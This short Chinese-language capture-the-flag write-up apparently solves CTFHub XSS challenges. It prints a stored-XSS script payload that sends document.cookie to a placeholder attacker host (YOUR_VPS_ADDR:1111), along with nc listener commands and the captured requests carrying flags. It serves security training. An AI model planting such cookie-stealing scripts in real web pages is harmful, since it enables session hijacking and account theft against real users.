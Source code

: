 VPS 上开个监听，然后把上面的 payload 提交

```shell
root@6ca7eb:~# nc -lvp 1111
Listening on [0.0.0.0] (family 0, port 1111)
Connection from 222.186.57.91 49621 received!
GET /flag%3Dctfhub%7Bc8aa84fbd8ee72e2d8cccc2f%7D HTTP/1.1
Host: YOUR_VPS_ADDR:1111
Connection: keep-alive
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/112.0.5615.138 Safari/537.36
Accept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Referer: http://challenge-42da80f82dbd8cb4.sandbox.ctfhub.com:10800/
Accept-Encoding: gzip, deflate
Accept-Language: en-US
```

flag: `ctfhub{c8aa84fbd8ee72e2d8cccc2f}`

### XSS - 存储型

```
bob</h1>

<script>

var img = new Image();
img.src = "http://YOUR_VPS_ADDR:1111/" + escape(document.cookie);
document.body.appendChild(img);

</script>

<h1>emm

```

先 change name，提交上面的 payload

然后 vps 开监听，下面提交这个网页的网址就可以

```shell
root@-6ca7eb:~# nc -lvp 1111
Listening on [0.0.0.0] (family 0, port 1111)
Connection from 222.186.57.91 29599 received!
GET /flag%3Dctfhub%7Ba66002481465aececc3d69b6%7D HTTP/1.1
Host: YOUR_VPS_ADDR:1111
Connection: keep-alive
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/112.0.5615.138 Safari/537.36
Accept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Referer: http://challenge-a395b18bd44e74a3.sandbox.ctfhub.com:10800/
Accept-Encoding: gzip, deflate
Accept-Language: en-US

```

